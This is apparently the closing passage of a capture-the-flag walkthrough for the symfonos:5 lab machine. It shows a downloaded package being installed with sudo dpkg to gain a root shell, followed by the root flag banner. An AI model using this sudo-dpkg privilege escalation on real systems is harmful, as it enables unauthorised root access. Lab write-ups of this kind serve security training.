 Length: 1076 (1.1K) [application/x-debian-package]

Saving to: ‘exp_1.0_amd64.deb’

exp_1.0_amd64.deb 100%[=====================================\>] 1.05K --.-KB/s
in 0s

2020-01-20 22:01:39 (157 MB/s) - ‘exp_1.0_amd64.deb’ saved [1076/1076]

zeus\@symfonos5:\~\$ sudo /usr/bin/dpkg -i exp_1.0_amd64.deb

(Reading database ... 53057 files and directories currently installed.)

Preparing to unpack exp_1.0_amd64.deb ...

root\@symfonos5:/\#

Root Flag

root\@symfonos5:\~\# cat proof.txt

Congrats on rooting symfonos:5!

ZEUS

\* . dZZZZZ, . \*

dZZZZ ZZ,

\* . ,AZZZZZZZZZZZ \`ZZ,\_ \*

,ZZZZZZV' ZZZZ \`Z,\`\\

,ZZZ ZZ . ZZZZ \`V

\* ZZZZV' ZZ ZZZZ \\\_ .

. V l . ZZ ZZZZZZ .

l \\ ZZ, ZZZ ZZZZZZ,

. / ZZ l ZZZ ZZZ \`Z,

ZZ l ZZZ Z Z, \`Z, \*

. ZZ ZZZ Z Z, \`l

Z ZZ V \`Z \\

V ZZC l V

Z l V ZR l .

\\ \\ l ZA

\\ C C

\\ K / / K

A \\ \\ \| / / /

\\ \\\\\|/ / /

\__________________________________\\\|/________________________\_

Contact me via Twitter \@zayotic to give feedback!
